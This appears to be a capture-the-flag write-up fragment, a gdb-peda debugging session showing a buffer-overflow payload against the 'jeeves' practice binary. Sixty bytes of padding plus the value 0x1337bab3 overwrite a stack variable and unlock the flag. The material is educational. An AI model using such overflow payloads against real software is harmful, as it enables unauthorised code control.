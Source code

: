 ```assembly
gdb-peda$ run < jeeves_payload 
Starting program: /root/htb/challenges-htb/pwn/jeeves/jeeves < jeeves_payload
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
[----------------------------------registers-----------------------------------]
RAX: 0x62 ('b')
RBX: 0x0 
RCX: 0x0 
RDX: 0x0 
RSI: 0x5555555592a0 ("May I have your name? Hello ", 'A' <repeats 60 times>, "\263\272\067\023, hope you have a good day!\n")
RDI: 0x7ffff7fa7670 --> 0x0 
RBP: 0x7fffffffdff0 --> 0x555555555200 (<main+23>:      (bad))
RSP: 0x7fffffffdfb0 ('A' <repeats 60 times>, "\263\272\067\023")
RIP: 0x555555555236 (<main+77>: cmp    DWORD PTR [rbp-0x4],0x1337bab3)
R8 : 0xffffffff 
R9 : 0x62 ('b')
R10: 0x7fffffffdfb0 ('A' <repeats 60 times>, "\263\272\067\023")
R11: 0x246 
R12: 0x555555555100 (<_start>:  endbr64)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555555225 <main+60>:    lea    rdi,[rip+0xe04]        # 0x555555556030
   0x55555555522c <main+67>:    mov    eax,0x0
   0x555555555231 <main+72>:    call   0x5555555550a0 <printf@plt>
=> 0x555555555236 <main+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
   0x55555555523d <main+84>:    jne    0x5555555552a8 <main+191>
   0x55555555523f <main+86>:    mov    edi,0x100
   0x555555555244 <main+91>:    call   0x5555555550e0 <malloc@plt>
   0x555555555249 <main+96>:    mov    QWORD PTR [rbp-0x10],rax
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdfb0 ('A' <repeats 60 times>, "\263\272\067\023")
0008| 0x7fffffffdfb8 ('A' <repeats 52 times>, "\263\272\067\023")
0016| 0x7fffffffdfc0 ('A' <repeats 44 times>, "\263\272\067\023")
0024| 0x7fffffffdfc8 ('A' <repeats 36 times>, "\263\272\067\023")
0032| 0x7fffffffdfd0 ('A' <repeats 28 times>, "\263\272\067\023")
0040| 0x7fffffffdfd8 ('A' <repeats 20 times>, "\263\272\067\023")
0048| 0x7fffffffdfe0 ('A' <repeats 12 times>, "\263\272\067\023")
0056| 0x7fffffffdfe8 --> 0x1337bab341414141 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555555236 in main ()
gdb-peda$ x/x $rbp-0x4 
0x7fffffffdfec: 0x555552001337bab3
gdb-peda$ c
Continuing.
Pleased to make your acquaintance. Here's a small gift: {Thanks_For_Reading}

[Inferior 1 (process 2597) exited normally]
Warning: not running
gdb-peda$ 
```
